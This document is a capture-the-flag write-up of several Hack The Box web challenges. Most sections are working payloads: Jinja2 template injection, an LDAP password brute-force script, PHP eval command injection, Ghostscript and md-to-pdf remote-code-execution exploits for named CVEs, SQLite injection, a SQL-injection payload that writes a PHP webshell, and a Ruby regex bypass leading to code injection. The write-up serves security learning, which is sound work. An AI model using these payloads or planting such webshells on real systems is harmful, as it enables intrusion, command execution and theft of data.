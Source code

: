# WEB

## Templeted `Flask/Jinja2 Template Injection`
Flask/Jinja2 Template Injection
Payload:
```
http://<ip_address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```

## Phonebook `LDAP Injection`
Bypass login using *:* credentials.

Get reese's password -> flag:
Python script: 
```python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

proxies = {
    'http': 'http://127.0.0.1:8080'
}

flag = "HTB{"
for i in range(50):
    print("[i] Looking for number " + str(i))
    # print(alphabet)
    for char in alphabet:
        pwd = flag + char + '*'
        r = requests.post("http://<ip_address>/login", data={"username":"reese", "password":pwd}, proxies=proxies)
        if ("'Content-Length': '2586'" in str(r.headers)):
            flag += char
            print("[+] Flag: " + flag)
            break
```



## LoveTok `Code Injection [PHP eval()]`
```url
# Get flag file name
http://<ip_address>/?format=${system($_GET[1])}&1=ls

# Get flag
http://<ip_address>/?format=${system($_GET[1])}&1=cat+flageXXXX
```


## Toxic `Insecure Deserialization` & `Log Poisoning Attack`
### `TODO`



## petpetrcb `CVE-2018-16509`
Ghostscript === 9.23 RCE
Payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


Payload for this challenge:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## Under Construction `JWT Algorithm Confusion` & `SQL Injection`
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```sql
-- Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

-- Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

-- Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```


## Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```js
// In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

// PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```

## Intergalactic POST `SQL Injection with RCE [SQLite3]`
If given arguments arent't properly validated:
```php
$this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
```
We can add `X-Forwarded-For` header and it's value will be passed to `$ip_address`
```sql
X-Forwarded-For: a','a');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```
Next arguments can be given through URL:
```url
http://104.248.173.13:32130/lol10.php?cmd=cat%20../flag_d055c3346bc2c02.txt
```

## Neofy `Regex Bypass with new line` && `Code Injection`
Regex that should protect against Code Injection:
```ruby
params[:neon] =~ /^[0-9a-z ]+$/i
```
In Ruby (but not only) the ^ and $ match at the start and end of each line. So if any (!) one line is matching, we have a successful match. What we would rather want in this case is matching the beginning and end of the string, which is possible with \A and \z.
Thats why this payload works:
```url
# In request POST /
neon=abc%0a<%25%3d+File.open('/app/flag.txt').read+%25>
%0a -> encoded newline
```
